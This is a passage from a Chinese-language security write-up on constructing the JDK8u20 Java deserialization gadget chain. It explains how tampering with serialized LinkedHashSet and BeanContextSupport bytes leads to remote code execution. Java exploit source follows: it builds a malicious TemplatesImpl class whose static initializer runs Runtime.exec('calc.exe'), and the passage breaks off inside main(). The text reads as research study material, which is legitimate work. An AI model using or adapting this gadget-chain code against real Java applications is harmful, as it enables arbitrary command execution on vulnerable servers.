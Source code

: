 ## exp2
这个exp2来自feihong师傅，通过正常反序列化后对字节码进行细微地调整来构造畸形的JDK8u20链，没有利用成员抛弃机制，也比前面的exp1稍微好理解一点
- 参考文章在[以一种更简单的方式构造JRE8u20 Gadget](https://xz.aliyun.com/t/8277)
- 完整源码在[feihong-cs/jre8u20_gadget](https://github.com/feihong-cs/jre8u20_gadget)
这里没有利用成员抛弃机制，而是利用到了LinkedHashSet反序列化时会一一反序列化map中对象的机制，先将`BeanContextSupport`放在最前面，让其产生非法的`AnnotationInvocationHandler`对象的newHandle，后续再正常地执行JDK7u21，整个链的构造逻辑大概如下:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211202092756.png)
> 在进行序列化的时候，向序列化流中写入了`4`个对象，但是通过修改序列化中的一些特殊的`byte`，构造了一个我们想要的序列化流。在反序列化的时候，`LinkedHashSet`读到的`size`为`3`,在反序列化第一个对象`BeanContextSupport`的时候，会进入到`BeanContextSupport`的`readChildren`逻辑，成功将`AnnotationInvocationHander`进行了还原（虽然`AnnotationInvocationHander`在反序列化的时候会抛出异常，但是`BeanContextSupport`捕捉了异常）。随后`LinkedHashSet`在反序列化第二个和三个元素的时候，会发生哈希碰撞，从而导致`RCE`。

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextSupport;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;


public class jdk8u20EXP {
    public static TemplatesImpl generateEvilTemplates() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换为bytes
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());


        return templates;
    }

    public static void main(String[] args) throws Exception {
        // jdk 7u21
        TemplatesImpl templates = generateEvilTemplates();
        HashMap map = new HashMap();
```